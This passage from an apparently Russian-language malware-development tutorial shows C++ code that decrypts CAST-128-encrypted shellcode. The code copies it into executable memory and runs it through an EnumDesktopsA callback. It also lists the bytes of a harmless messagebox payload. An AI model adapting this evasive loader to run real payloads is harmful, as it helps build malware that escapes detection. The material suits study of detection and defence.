 ```cpp
  printf("encrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  cast_decrypt_shellcode(padded, my_payload_len, subkeys);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)
  NULL);
  return 0;
}
```

В функции `main` определяется полезная нагрузка (шеллкод) и создается расписание ключей. Затем шеллкод шифруется и расшифровывается с помощью алгоритма `CAST-128`.

Как обычно, я использовал полезную нагрузку `meow-meow` messagebox:   

```cpp
unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```
